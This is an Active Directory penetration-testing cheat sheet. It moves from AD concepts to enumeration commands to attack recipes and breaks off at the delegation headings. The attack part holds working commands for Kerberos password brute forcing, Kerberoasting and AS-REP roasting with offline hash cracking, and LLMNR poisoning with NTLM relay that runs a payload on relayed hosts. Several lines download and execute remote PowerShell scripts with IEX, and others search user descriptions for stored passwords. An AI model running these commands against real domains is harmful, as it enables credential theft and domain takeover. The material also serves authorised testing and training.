


<h1 align="center">Active Directory</h1>

-   <h2 align="center">Active directory concepts</h2>

    -   **Main concepts of an Active Directory:**

        -   **Directory** -- Contains all the information about the objects of the Active directory

        -   **Object** -- An object references almost anything inside the directory (a user, group, shared folder\...)

        -   **Domain** -- An AD Domain contains a collection of objects. For example, Users and Computers. Domains are identified by their DNS names, for example, Domain1.com, Domain2.com, Inside a \"forest\" more than one domain can exist and each of them will have their own objects collection.

        -   **Tree** -- Group of subdomains with the same root. Example: *dom.local,* *[[email.com.local]{.underline}],* [*[www.dom.local]{.underline}*]

        -   **Forest** -- In the AD hierarchical structure, the Forest is at the top of the logical structure of AD. AD Forest contains a number of AD Domains interconnected by Trust Relationship The next level of the hierarchy are Domains, then you have Organization Units (OUs). Within OUs you have users and computers.

    -   **Active directory services (ADDS)**

        -   **Active Directory services, which fall under the umbrella of \"Active Directory Domain Services,\" or AD DS. These services include:**

            -   **Domain Services** -- stores centralized data and manages communication between users and domains; includes login authentication and search functionality  

            -   **Certificate Services** -- creates, distributes, and manages secure certificates

            -   **Lightweight Directory Services** -- supports directory-enabled applications using the open (LDAP) protocol

            -   **Directory Federation Services** -- provides single-sign-on (SSO) to authenticate a user in multiple web applications in a single session

            -   **Rights Management** -- protects copyrighted information by preventing unauthorized use and distribution of digital content

            -   **DNS Service** -- Used to resolve domain names.

    -   **Active directory Terminologies**

-   **Schema:** A set of rules, the schema, that defines the classes of objects and attributes contained in the directory, the constraints and limits on instances of these objects, and the format of their names.. An example of a AD object class is a user. A user has some attributes like the users name, manager, etc.

-   **Global catalog:** A global catalog that contains information about every object in the directory. This allows users and administrators to find directory information regardless of which domain in the directory actually contains the data..

-   **Forest Root Domain:** The first domain that is installed in an Active Directory Forest is referred to as the root domain.

-   **Sites:** Sites in AD DS represent the physical structure, or topology, of your network. AD DS uses network topology information, which is stored in the directory as site, subnet, and site link objects, to build the most efficient replication topology.

-   **Ad Replication**: If you deploy Active Directory in a production environment, it is recommended to have at least 2 Domain Controllers (DCs) in your AD Domain. The reason for this is obvious -- create redundancy

-   **Lightweight Directory Access Protocol:** AD is based on the Lightweight Directory Access Protocol (LDAP). This protocol provides a common language for clients and servers to speak to one another

    -   **Domain Controller**

        -   **Domain Controllers:** servers that is running AD DS is called a domain controller. Domain controllers host and replicate the directory service database inside the forest. The directory service also provides services for managing and authenticating resources in the forest. These servers host essential services in AD DS, including the following:

            -   Kerberos Key Distribution Center (kdc)

            -   NetLogon (Netlogon)

            -   Windows Time (W32time)

            -   Intersite Messaging (IsmServ)

    -   **Active directory Naming conventions**

        -   

        -   Every object in Active Directory is identified by a name. Active Directory uses a variety of naming conventions: distinguished names, relative distinguished names, globally unique identifiers, and user principal names

        -   **Distinguished names**

            -   Every object in Active Directory has a *distinguished name *(DN), which uniquely identifies an object and contains sufficient information for a client to retrieve the object from the directory. The DN includes the name of the domain that holds the object, as well as the complete path through the container hierarchy to the object.

            -   DN (Distinguished Names) LDAP names:

                -   CN = Common name

                -   OU = Organisational Unit

                -   DC = Domain

                -   Ex :  *CN=winsaafman,DC=corp,DC=scriptdotsh,DC=local*

        -   **Relative Distinguished Names**

            -   The *relative distinguished name*  of an object is the part of the distinguished name that is an attribute of the object. Active Directory supports querying by attributes, so you can locate an object even if the exact DN is unknown or has changed. The* relative distinguished name *(RDN)* *of an object is the part of the name that is an attribute of the object itself. In the preceding example, the RDN of the Firstname Lastname user object is *Firstname Lastname*. The RDN of the parent object is Users.

            -   You can have duplicate RDNs for Active Directory objects, but you cannot have two objects with the same RDN in the same OU. For example, if a user account is named Jane Doe, you cannot have another user account called Jane Doe in the same OU. However, objects with duplicate RDNs can exist in separate OUs because they have different DNs 

        -   **User principle names**

            -   User accounts have a \"friendly\" name, the user principal name (UPN). The UPN is composed of a \"shorthand\" name for the user account and the DNS name of the tree where the user account object resides. For example, it . contains the username + DNS domain name, linked with the symbol @

            -   (e.g., <jsavill@savilltech.com>).

        -   **Service principal Names**

            -   SPN (Service Principal Name) - This is the name of the service, sometimes you may have a user account with the SPN attribute configured which defines it as a service account. An example of a SPN would be.

            -   CIFS/SERVERNAME-2016RDS.m0chanAD.local

            -   MSSQL/MSSQLSERVER.m0chanAD.local

        -   **Global unique identifier**

            -   A *globally unique identifier *(GUID)* *is a 128-bit number that is guaranteed to be unique. GUIDs are assigned to objects when they are created. The GUID never changes, even if you move or rename the object. Applications can store the GUID of an object and use it to retrieve that object regardless of its current DN.

    -   **Active Directory Trust**

        -   A trust is a relationship between forest and/or domains.  A trust allows you to maintain a relationship between the two domains to ensure resources in domains can be accessed by users.  All the trusts between domains in an Active Directory forest are transitive and two-way trusts. So there is no need to create a trust between domains of the same Active Directory forest, but you will be required to create a trust between domains of different Active Directory forests if you need to allow users from one domain to access resources in another domain in a different Active Directory forest.

        -   **Trust characteristics**

            -   Implicit (Parent-Child trust)

            -   Transitive/non-transitive

                -   [Contoso.com] trusts [Trimagna.com].

                -    [Contoso.com] trusts [Adatum.com].

                -   Therefore, if Transitive then  [Trimagna.com] trusts [Adatum.com]. if non transitive  [Trimagna.com] doesn't trusts [Adatum.com].

            -   One way : one way access to resources of the trusted forest

            -   Two-way : users of both forests can access resources from other forest

        -   **Trust types**
    
            -   

            -   **External trust**: You will create an external trust only if the resources are located in a different AD forest. Between 2 domains in different forests when forests doesn't have a trust relationship. An external trust is always nontransitive and it can be a one-way or two-way trust.

            -   **Realm trust**: Realm trusts are always created between the Active Directory forest and a non-Windows Kerberos directory such as eDirectory, Unix Directory, etc. The trust can be transitive and nontransitive and the trust direction can be one-way or two-way. If you are running different directories in your production environment and need to allow users to access resources in the either of the directories, you will need to establish a realm trust.

            -   **Forest trust**: Between forest root domains , You will be required to create a forest trust if you need to allow resources to be shared between AD forests. Forest trusts are always transitive and the direction can be one-way or two-way.

            -   **Shortcut trust**: used to reduce access time in a complex trust scenarios . You may want to create a shortcut trust between domains of the same Active Directory forest if you need to improve the user login experience. The shortcut trust is always transitive and direction can be one-way or two-way.

            -   **Automatic Trusts**

                -   **Tree-root trust:** A tree-root trust is created automatically between a new tree and its root domain. This trust is transitive and two-way by default.

                -   **Parent-child trust:** A parent-child trust is created automatically between a child and its parent domain. This trust is transitive and two-way by default.

-   <h2 align="center">Domain Enumeration</h2>

    -   **Tools for Enumeration**

        -   net

        -   netlist

        -   PowerShell ActiveDirectory module

        -   power view

        -   PowerShell native .Net framework

        -   WMI cmdlet

        -   Dsquery

        -   bloodhound

    -   **Enum with Net program and Netlist ( old approach )**

        -   **list all local users**

            -   net user

        -   **list users in domain**

            -   net user /domain 

        -   **list info about a user in a domain**

            -   net user  \[name\] /domain 

        -   **list all groups in a domain**

            -   a group can have nested groups but net program cant list nested groups only direct users members in a group

            -   net group /domain 

        -   **Gives us a full list of all the machines joined to the Domain**

            -   net group "domain computers"/ domain

        -   **Gives us a list of the administrators joined to the Domain**

            -   net group "domain admins " / domain

        -   **get DCs of a domain**

            -   nltest /DCLIST:DomainName  

            -   nltest /DCNAME:DomainName 

            -   nltest /DSGETDC:DomainName

            -   net group \"domain controllers\" /domain

        -   **get forest trust relationships**

            -   nltest \[server:\<fqdn\_domain\>\] /domain\_trusts /all\_trusts /v

        -   **get DC for currently authenticated session**

            -    nltest /dsgetfti:\<domain\>

        -   **Get Parent Domain**

            -   nltest /parentdomain

        -   **get domain trusts from cmd shell**

            -   nltest /server:\<ip\_dc\> /domain\_trusts /all\_trusts

        -   **View All Domain Controllers**

            -   nltest /dclist:\[domain\] \"domain controllers\" /domain

        -   **view DC for Current Session**

            -    nltest /dsgetdc:\[domain\]

        -   **View Domain Trusts from CMD**

            -   nltest /domain\_trusts

        -   **View User Info from CMD**

            -   nltest /user:\"username\"

        -   **get domain name and DC the user authenticated to**

            -   klist

        -   **Get All Logged on Sessions, Includes NTLM & Kerberos**

            -   klist sessions

        -   **View Kerb Tickets**

            -    klist

        -   **View Cached Krbtgt**

            -   klist tgt

        -   **whoami on older Windows systems**

            -   set u

        -   **get DC for currently authenticated session**

            -    set l

    -   **Enum with Powerview and AD module**

        -   **Usage**

            -   **Powerview**

                -   IEX (New-Object Net.WebClient).DownloadString(\"<https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1>\")

                -   **Import the module**

                    -   powershell --ExecutionPolicy Bypass

                    -   Import PowerView.ps1

            -   **Ad powershell module**

                -   Active Directory module is used to query Active Directory without getting help of any external powershell modules or scripts. (Also used for administration) Moreover, it is signed by Microsoft, so there are less chances of detection and getting flagged as malicious by AVs when you use AD Module and not some external powershell scripts for AD enumeration

                -   cd C:\\Windows\\Microsoft.NET\\assembly\\GAC\_64\\Microsoft.ActiveDirectory.Management

                -   Import-Module .\\Microsoft.ActiveDirectory.Managment.dll

        -   **Get Domain Information**

            -   **Get current  Domain**

                -   Get-NetDomain     (powerview commands)

                -   Get-ADDomain       (active directory powershell module)

            -   **Get Domain Sid**

                -   Get-DomainSID     

                -   (Get-ADomain).DomainSID    

            -   **Get Domain Controller of the current Domain**

                -   Get-NetDomainController     

                -   Get-ADDomainController 

            -   **Get Domain Controller of Another domain**

                -   Get-NetDomainController -Domain \<target-domain\>

                -   Get-ADDomainController -DomainName \<target-domain\> -Discover

            -   **Get Domain policy & Kerberos policy**

                -   Get-DomainPolicy      

                -   (Get-DomainPolicy).\"System Access\" 

                -   (Get-DomainPolicy -domain \<target-domain\>).\"system access\" //domain policy for another domain

                -   (Get-DomainPolicy).\"Kerberos Policy\" 

            -   **Get other domain objects**

                -   Get-NetDomain -Domain \<target-domain\>

                -   Get ADDomain -Identity \<target-domain\>

            -   **Get OUs in a domain**

                -   Get-NetOU

                -   Get-NetOU -FullData

                -   Get-ADOrganizationalUnit -Filter \* -Properties \*

            -   **Get GPO applied on an OU**

                -   Get-NetGPO -GPOname \"{ab30\...}\"   //Read GPOName from gplink attribute from Get-NetOU\^

                -   Get-GPO -Guid ab30\...

        -   **Get list of all domain Trust in current Directory**

            -   Get-DomainTrust

            -   Get-DomainTrust -API

            -   Get-DomainTrustMapping

            -   Get-NetDomainTrust

            -   Get-NetDomainTrust -Domain \<domain\>

            -   Get-ADTrust

            -   Get-ADTrust -Filter \*

            -   Get-ADTrust -Identity \<domain\>

            -   Get-ADTrust -Filter \'msDS-TrustForestTrustInfo -ne \"\$null\"\'

        -   **Get Forest info**

            -   **Get Details about the current forest**

                -   Get-NetForest

                -   Get-NetForest -Forest \<forest-name\>

                -   Get-ADForest

                -   Get-ADForest -Identity \<forest-name\>

            -   **Get All Domains in a forest**

                -   Get-NetForestDomain

                -   Get-NetForestDomain -Forest \<forest-name\>

                -   (Get-ADForest).Domains

            -   **Get all Global Catalog of the Forest**

                -   Get-NetForestCatalogGet-NetForestCatalog

                -   Get-NetForestCatalog -Forest \<forest-name\>

                -   Get-ADForest \| select -ExpandProperty GlobalCatalogs

        -   **Get All AD Users in Domain and their info**

            -   Get-NetUser                                 

            -   Get-ADUser -Filter \* -Properties \*

            -   Get-NetUser \| select {specific\_property}   -\> print specific property for all users

            -   Get-ADUser -Identity user1 -Properties \*   \| Select {specific\_property}

            -   Get-NetUser -Username user1

            -   Get-ADUser -Identity user1 -Properties \*    

        -   **Get list of all users properties in a Domain**

            -   Get-UserProperty

            -   Get-UserProperty -Properties pwdlastset

            -   Get-UserProperty -Properties logoncount // Small logon account is not actively used or it is a decoy account

            -   Get-UserProperty -Properties badpwdcount // These properties can be used to identify a honeyuser/decoy user from a legit one

            -   Get-ADUser -Filter \* -Properties \* \| select -First 1 \| Get-Member -MemberType \*Property \| select Name

            -   Get-ADUser -Filter \* -Properties \* \| select name,@{expression={\[datetime\]::fromFileTime(\$\_.pwdlastset}}

        -   **Get a list of computers in current Domain**

            -   Get-NetComputer

            -   Get-NetComputer -OperatingSystem \"\*Server 2016\*\"

            -   Get-NetComputer -Ping

            -   Get-NetComputer -FullData

            -   Get-NetComputer -FullData \| select operatingsystem

            -   Get-ADComputer -Filter \*

            -   Get-ADComputer -Filter \* \| select Name

            -   Get-ADComputer -Filter \'OperatingSystem -like \"\*Server 2016\*\"\' -Properties Operating System \| select Name,OperatingSystem

            -   Get-ADComputer -Filter \* -Properties DNSHostName \| %{Test-Connection -Count 1 -ComputerName \$\_DNSHostName}Get-ADComputer -Filter \* -Properties \*

        -   **Group Info**

            -   **Get all  Groups in the current domain and group Information**

                -   Get-NetGroup

                -   Get-NetGroup -Domain \<target-domain\>

                -   Get-NetGroup -FullData

                -   Get-ADGroup -Filter \* \| select Name

                -   Get-ADGroup -Filter \* -Properties \*

            -   **Get all groups containing the word 'admin' in the Group name**

                -   Get-NetGroup

                -   Get-NetGroup -GroupName \*admin\*

                -   Get-NetGroup -GroupName \*admin\* -Domain \<target-domain\>

                -   Get-NetGroup -FullData

                -   Get-NetGroup \"admin\"

                -   Get-NetGroup \'Domain Admins\'

                -   Get-NetGroup \'Domain Admins\' -FullData

                -   Get-ADGroup -Filter \*Get-ADGroup -Filter \* \| select name

                -   Get-ADGroup -Filter \'Name -like \"\*admin\*\"\' \| select Name

            -   **Get all Members of the domain admin group**

                -   Get-NetGroupMember -GroupName \'Domain Admins\'

                -   Get-NetGroupMember -GroupName \'Enterprise Admins\' -Domain \[domain\]

                -   Get-NetGroupMember -GroupName \'Domain Admins\' -Recurse

                -   Get-NetGRoupMember -GroupName \'Administrators\' -Recurse

                -   Get-ADGroupMember -Identity \'Domain Admins\' --Recursive

            -   **list of users which are part of a specific AD Group**

                -   Get--ADGroup \[roup\_name\] \| Get--ADGroupMember

            -   **Get All members Of A Security group**

                -   Get-ADGroupMember -identity "HR Full"

            -   **list all local Groups on a machine**

                -   Get-NetLocalGroup -ComputerName \<computer-name\>

                -   Get-NetLocalGroup -ComputerName \<computer-name\> -ListGroups

                -   Get-NetLocalGroup -ComputerName \<computer\> -Recurse    -\> member of local groups but  needs admin privs

            -   **Get group policy info**

                -   Get-NETGPO

                -   Get-NETGPO \| select displayname // Default domain policy & default domain controllers policy - same in all domains

                -   Get-NETGPO -ComputerName \<computer-name\>

                -   gpresult /R /V     : Gives us the effective user permissions and the group policies enabled of the account

                -   Get-GPO -All // GroupPolicy module

                -   Get-GPResultantSetOfPolicy -ReportType Html -Path C:\\users\\administrator\\report.html // Provides RSoP

            -   **List all group memberships of a user**

                -   Get-NetGroup -UserName \"\<username\>\"

                -   Get-ADPrincipalGroupMembership -Identity \<username\>

        -   **User Hunting**

            -   **Find users that have admin access on computer through GP**

                -   Find-GPOComputerAdmin -ComputerName STUDENT-PC.mega.local

                -   Get-NetComputer \| % {Find-GPOComputerAdmin -ComputerName \$\_}

            -   **Find computers that user has admin access on it through GP**

                -   Find-GPOLocation -UserName tech

            -   **Script to auto check users**

                -   \$data = Get-NetUser \| select cn

                -   \$data = \$data -replace \"@{cn=\"

                -   \$data = \$data -replace \"}\"

                -   echo \$data \| % {Find-GPOLocation -UserName \$\_}

            -   **Find machines where current user has local administrator access**

                -   Find-LocalAdminAccess -Verbose -NoPing

            -   **Find Local Admins on all machines**

                -   Invoke-EnumerateLocalAdmin -Verbose -NoPing

                -   Invoke-EnumerateLocalAdmin -Verbose -NoPing \| select \"\*name\",\"IsGroup\"

            -   **Find users who are currently loggedon ( needs local admin rights on target)**

                -   Get-NetLoggedon -ComputerName \<computer-name\>

                -   Get-NetComputer \| % {Get-NetLoggedon -ComputerName \$\_ \| select \"\*name\"}

                -   Get-LoggedonLocal -ComputerName \<computer-name\>    //Get locally logged on users on a computer

                -   Get-LastLoggedOn -ComputerName \<computer-name\>     // get last logged on users on a computer

                -   Get-NetSession -computerName \<computer-name\>

            -   **Find specific users/groups who are currently loggedon or has sesions**

                -   Invoke-UserHunter

                -   Invoke-UserHunter -GroupName \"RDPUsers\"

                -   Invoke-UserHunter -Verbose -NoPing -GroupName \"Domain Admins\"

                -   Invoke-UserHunter -Verbose -NoPing -GroupName \"Domain Admins\" -CheckAccess   //Confirm admin access

            -   **Get All Disable User Accounts**

                -    Search-ADAccount -AccountDisabled \| select \<user\>

                -    Search-ADAccount -AccountDisabled

            -   **Disable User Account**

                -   Disable-ADAccount -Identity \<user\>

            -   **Enable User Account**

                -   Enable-ADAccount -Identity \<user\>

            -   **Find All Locked User Accounts**

                -   Search-ADAccount -LockedOut

            -   **Unlock User Account**

                -   Unlock-ADAccount --Identity john.smith

        -   **Find DFS shares**

            -   Get-ADObject -filter \* -SearchBase \"CN=Dfs-Configuration,CN=System,DC=offense,DC=local\" \| select name -\>AD module

            -   Invoke-ShareFinder -Verbose

            -   Invoke-ShareFinder -Verbose -ExcludeStandard -ExcludePrint -Exclude IPC

            -   **get all file servers in a domain**

            -   Get-NetFileServer -Verbose // Looks for high value targets - where lots of users connect/authenticate

    -   **Enum with Native .Net classes**

        -   **Get Current Domain**

            -    \[System.DirectoryServices.ActiveDirectory.Domain\]::GetCurrentDomain()

        -   **Get Domain Trust**

            -   (\[System.DirectoryServices.ActiveDirectory.Domain\]::GetCurrentDomain()).GetAllTrustRelationships()

        -   **Get Forest info**

            -    \[System.DirectoryServices.ActiveDirectory.Forest\]::GetCurrentForest()

        -   **Get Forest Trust info**

            -   (\[System.DirectoryServices.ActiveDirectory.Forest\]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext(\'Forest\', \'forest-of-interest.local\')))).GetAllTrustRelationships()

        -   **Get Local sql server**

            -   \[System.Data.Sql.SqlDataSourceEnumerator\]::Instance.GetDataSources()

    -   **Enum with Adsisearcher**

        -   \[adsisearcher\] is a Windows PowerShell type accelerator for seaching Active Directory Domain Services, allowing PowerShell to access the system.directoryservices.directorysearcher .NET class with ease

        -   **List all Usernames**

            -   (\[adsisearcher\]\"(&(objectClass=User)(samaccountname=\*))\").FindAll().Properties.samaccountname

        -   **List Administrators**

            -   (\[adsisearcher\]\"(&(objectClass=User)(admincount=1))\").FindAll().Properties.samaccountname

        -   **List all Info about Specific User**

            -   (\[adsisearcher\]\"(&(objectClass=User)(samaccountname=\<username\>))\").FindAll().Properties

        -   **Gives us all attributes associated with a user**

            -   *((\[adsisearcher\]"(name=UserName)").FindAll()) \| Select -Expand Properties*

        -   **Gives us all attributes associated with a computer**

            -   *((\[adsisearcher\]"(name=Computer)").FindAll()) \| Select -Expand*

        -   **View All Users with Description Field Set**

            -   (\[adsisearcher\]\"(&(objectClass=group)(samaccountname=\*))\").FindAll().Properties \| % { Write-Host \$\_.samaccountname : \$\_.description }

        -   **search for keyword**

            -   (\[adsisearcher\]\"(info=\*pass\*)\").FindAll()

            -   (\[adsisearcher\]\"(info=\*pass\*)\").FindAll() \| %{ \$\_.GetDirectoryEntry() } \| Select-Object sAMAccountName, info

        -   **Authenticated search**

            -   (New-Object adsisearcher((New-Object adsi(\"[[LDAP://example.com]{.underline}]\",\"domain\\username\",\"password\")),\"(info=\*pass\*)\")).FindAll()

        -   **Enumerates all of the computers in the domain that are running X application (Ex : dfs,MSSQL)**

            -   (\[adsisearcher\]"(&(objectClass=Computer(servicePrincipalName=\*X\*))").FindAll()

        -   **Enumerates all of the crackable service accounts**

            -   *(\[adsisearcher\]"(&(objectClass=User)(primarygroupid=513)(servicePrincipalName=\*))").FindAll()\|ForEachObject{"Name:\$(\$\_.properties.name)""SPN:\$(\$\_.properties.serviceprincipalname)""Path:\$(\$\_.Path)"""}*

        -   **search single user**

            -   (\[adsisearcher\]\'samaccountname=nigel\').FindOne()

            -   \[adsi\]\'[[LDAP://CN=nigel,OU=Users,DC=domain,DC=local]{.underline}]\'

    -   **Enum with WMI cmdlet**

        -   **Get current Domain**

            -   Get-WmiObject -Namespace root\\directory\\ldap -Class ds\_domain \| select -ExpandProperty ds\_dc

            -   (Get-WmiObject -Class Win32\_ComputerSystem).Domain

        -   **Get current Domain policy**

            -   Get-WmiObject -Namespace root\\directory\\ldap -Class ds\_domain \| select DS\_lockoutDuration, DS\_lockoutObservationWindows, DS\_lockoutThreshold, DS\_maxPwdAge, DS\_minPwdAge, DS\_minPwdLength, DS\_pwdHistoryLength, DS\_pwdProperties

        -   **Get Domain Controller**

            -   Get-WmiObject -Namespace root\\directory\\ldap -Class ds\_computer \| where-object {\$\_.ds\_userAccountControl -eq 532480}Get-WmiObject -Namespace root\\directory\\ldap -Class ds\_computer \| where-object {\$\_.ds\_userAccountControl -eq 532480} \| select ds\_cn

        -   **Get Domain users**

            -   Get-WmiObject -Class Win32\_UserAccount

            -   Get-WmiObject -Class Win32\_UserAccount \| select name

            -   Get-WmiObject -Class Win32\_UserAccount -Filter \"Domain = \'targetdomain\'\"

        -   **Get Domain Groups**

            -   Get-WmiObject -Class Win32\_Group

            -   Get-WmiObject -Class Win32\_GroupInDomain \| fl \*Get-WmiObject -Class Win32\_GroupInDomain \| Foreach-Object {\[wmi\]\$\_.PartComponent}Get-WmiObject -Class Win32\_GroupInDomain \| where-object {\$\_.GroupComponent -match "domain"} \| foreach-object {\[wmi\]\$\_.PartComponent}

        -   **Get Domain admin group members**

            -   Get-WmiObject -Class Win32\_GroupUser \| where-object {\$\_.GroupComponent -match \"Domain Admins\"} \| foreach-object {\[wmi\]\$\_.PartComponent}

            -   Get-WmiObject -Class Win32\_GroupUser \| where-object {\$\_.GroupComponent -match \"domain\" -and \$\_.GroupComponent -match \"Domain Admins\" \| foreach-object {\[wmi\]\$\_.PartComponent}

        -   **Get user group memeberships**

            -   Get-WmiObject -Class Win32\_GroupUser \| where-object {\$\_.PartComponent -match \"nigel\"} \| foreach-object {\[wmi\]\$\_.GroupComponent}

        -   **get local routing tables**

            -   Get-WmiObject -Class Win32\_IP4RouteTable

            -   Get-WmiObject -Class Win32\_IP4RouteTable \| select description, nexthop

        -   **Get local users**

            -   Get-WmiObject -Class Win32\_UserAccount

            -   Get-WmiObject -Class Win32\_UserAccount \| select caption,SID,name

        -   **Get local Groups**

            -   Get-WmiObject -Class Win32\_Group

        -   **Get computes in the domain**

            -   Get-WmiObject -Namespace root\\directory\\ldap -Class ds\_computer

            -   Get-WmiObject -Namespace root\\directory\\ldap -Class ds\_computer \| select -ExpandProperty ds\_cn

            -   (Get-WmiObject -Namespace root\\directory\\ldap -Class ds\_computer \| where-object {\$\_ds\_cn -eq \"DC-Name\"}).Properties \| foreach-object {If(\$\_.value -AND \$\_.name -notmatch \"\_\_\"){@{\$(\$\_.name) = \$(\$\_.value)}}}

    -   **Dsquery**

        -   **Get users in domain**

        -   dsquery user -name \*

        -   **Get User Group Memberships**

        -   dsquery user -samid \"nigel\" \| dsget user -memberof -expand

        -   **Get Trusted Domains**

        -   dsquery \* -filter \"(objectClass=trustedDomain)\" -attr \*

        -   **Find DCs in Forest**

        -   dsquery server -Forest

        -   **Find Users with Sensitive Descriptions**

        -   dsquery user -desc \*pass\*

        -   dsquery user -desc \*cred\*

        -   dsquery user -desc \*key\*

    -   **BloodHound**

        -   **BloodHound** **: **tool used** ** to map the whole environment   it uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. It can be used  within a classic user account (non-privileged user account )

        -   **Download**

            -   apt install bloodhound  or git clone [[https://github.com/BloodHoundAD/BloodHound.git]{.underline}]

            -   neo4j console &

            -   go to  [[http://localhost:7474]{.underline}]    user:neo4J, pass:neo4j

        -   **Usage**

            -   on the victim machine :

            -   download sharphound   

                -   [[https://github.com/BloodHoundAD/SharpHound3]{.underline}]

            -   upload it to the target\'s pc

            -   excecute:  .\\SharpHound.exe   

                -   it and it will generate a zip file  {ex : 3242\_bloodhound.zip}  take this zip file and download it to your machine and open  bloodhound and open the zip file with bloodhound

            -   bloodhound  -\> click on queries -\> click on find shortest path to domain admins

-   <h2 align="center">Active Directory attacks</h2>

    -   **Kerberos Bruteforecing**

        -   **Kerbrute (linux)**

            -   python kerbrute.py -domain \<domain\_name\> -users \<users\_file\> -passwords \<passwords\_file\> -outputfile \<output\_file\>

        -   **Rubeus (windows)**

            -   **with a list of users**

            -   .\\Rubeus.exe brute /users:\<users\_file\> /passwords:\<passwords\_file\> /domain:\<domain\_name\> /outfile:\<output\_file\>

            -   **check passwords for all users in current domain**

            -   .\\Rubeus.exe brute /passwords:\<passwords\_file\> /outfile:\<output\_file\>

    -   **Kerberosting**

        -   Kerberoasting is an attack method that allows an attacker to dump the ticket and crack the passwords of service accounts in Active Directory offline and without fear of detection.

        -   If you got a valid domain user, you may just ask the KDC to issue you a valid TGS for any service. Knowing the fact that SPN attributes can be set to a specific username, and that the TGS is encrypted using service's key (user's key in that case) We can issue a TGS ticket on our own machine, dump the ticket and start an offline bruteforce attack against it to retrieve the plaintext password for that user (service account)!

        -   Service principal names (SPNs) are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account (an account specifically made for running a service 

        -   The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD

        -   **Get users with SPN tcikets**

            -   GetUserSpn.ps1

        -   **Extract tickets to the disk**

            -   Mimikatz \# Kerberos::list /export

        -   **Lmpcket**

            -   python GetUserSPNs.py \<domain\_name\>/\<domain\_user\>:\<domain\_user\_password\> -outputfile \<output\_TGSs\_file\>

        -   **Rubeus**

            -   .\\Rubeus.exe kerberoast /outfile:\<output\_TGSs\_file\>

        -   **Crack with PowerShell**

            -   iex (new-object Net.WebClient).DownloadString(\"<https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1>\")

            -   Invoke-Kerberoast -OutputFormat \<TGSs\_format \[hashcat \| john\]\> \| % { \$\_.Hash } \| Out-File -Encoding ASCII \<output\_TGSs\_file\>

        -   **Crack with With dictionary passwords**

            -   hashcat -m 13100 \--force \<TGSs\_file\> \<passwords\_file\>

            -   john \--format=krb5tgs \--wordlist=\<passwords\_file\> \<AS\_REP\_responses\_file\>

    -   **DC synchronization**

        -   DCsync attack simulates the behavior of a domain controller and asks other domain controllers to replicate information using the Directory Replication Service Remote Protocol ([MS-DRSR]). Basically, it lets you pretend to be a domain controller and ask for user password data

    -   **DC shadow**

        -   With "[DCShadow]", attackers no longer try to replicate data but will register new domain controllers or to create a fake Active Directory Domain Controller (DC) in the targeted infrastructure to inject Active Directory objects or alter existing ones  and makes malicious changes to legitimate DCs. (by replacing the attributes' content) 

    -   **AS-REP Roasting**

        -   If a domain user does not have Kerberos preauthentication enabled, an AS-REP can be successfully requested for the user, and a component of the structure can be cracked offline a la kerberoasting

        -   It is often-overlooked in my opinion it is not extremely common as you have to explicitly set Accounts Does not Require Pre-Authentication aka DONT\_REQ\_PREAUTH

        -   Pre-Authentication is the first step in Kerberos Authentication and it's main role is to try prevent against brute-force password guessing attacks

        -   **Lmpacket**

            -   **check ASREPRoast for all domain users (credentials required)**

            -   python GetNPUsers.py \<domain\_name\>/\<domain\_user\>:\<domain\_user\_password\> -request -format \<AS\_REP\_responses\_format \[hashcat \| john\]\> -outputfile \<output\_AS\_REP\_responses\_file\>

            -   **check ASREPRoast for a list of users (no credentials required)**

            -   python GetNPUsers.py \<domain\_name\>/ -usersfile \<users\_file\> -format \<AS\_REP\_responses\_format \[hashcat \| john\]\> -outputfile \<output\_AS\_REP\_responses\_file\>

        -   **Rubeus (windows)**

            -   check ASREPRoast for all users in current domain

            -   .\\Rubeus.exe asreproast /format:\<AS\_REP\_responses\_format \[hashcat \| john\]\> /outfile:\<output\_hashes\_file\>

        -   **Crack with dictionary passwords**

            -   hashcat -m 18200 -a 0 \<AS\_REP\_responses\_file\> \<passwords\_file\>

            -   john \--wordlist=\<passwords\_file\> \<AS\_REP\_responses\_file\>

    -   **Ntds.dit Extraction**

    -   **LLMNR & NetBios Poisoning**

        -   **Responder**

            -   git clone https://github.com/lgandx/Responder

            -   python Responder.py -I eth0 -wrf

        -   **Search SMB Signing disabled or not required**

            -   nmap -p 445,139 \--open \--script smb2-security-mode 192.168.100.0/24 \| grep \"scan report \\\| signing\"

        -   **NTLM Replay**

            -   wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/ntlmrelayx.py

            -   ntlmrelayx.py -smb2support -tf targets.txt

            -   ntlmrelayx.py -smb2support -tf targets.txt -c {Powershell Agent \> %TEMP%\\execute.bat & %COMSPEC% /Q /c %TEMP%\\execute.bat & del %TEMP%\\execute.bat REM \'} LLMNR & NetBios Poisoning

-   **Domain priv Escalation**

    -   **Kerberos Constrained delegation**

        -   Delegation is the act of Service impersonating User to access another Service  

        -   if a user or computer is allowed for \"Constrained Delegation\" it will be able to impersonate any user to access some services in a computer. Then, if you compromise the hash of this user/computer you will be able to impersonate any user (even domain admins) to access some services.

    -   **Kerberos Unconstrained delegation**

